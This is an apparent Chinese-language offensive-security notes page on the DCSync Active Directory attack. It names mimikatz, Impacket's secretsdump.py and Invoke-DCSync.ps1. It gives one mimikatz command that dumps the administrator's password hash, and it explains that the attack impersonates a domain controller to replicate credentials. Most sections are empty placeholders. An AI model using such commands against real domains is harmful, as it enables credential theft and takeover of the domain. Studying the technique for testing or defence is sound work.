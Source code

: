 ```yaml
---
description: 横向移动 / 滥用身份验证 /
---
```


# ✔️ DCSync攻击 - Domain Controller Synchronization

## 先决条件

*





## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 指定要同步的目标账户
lsadump::dcsync / user:administrator
```

### Impacket

* 常用脚本：**secretsdump.py**

```bash
// Some code
```

### Powershell

* 常用脚本：Invocke-DCSync.ps1

```powershell
// Some code
```

## 攻击步骤

*





{% hint style="info" %}
DCSync攻击的本质是利用了AD本身的功能，攻方模拟一个有复制权限的域控向目标内网中的其他域控发出同步数据的请求，以获取到特定的高权限的账户的密码哈希和其他敏感信息。其过程是利用的合法的DC同步功能，没有其他恶意操作
{% endhint %}
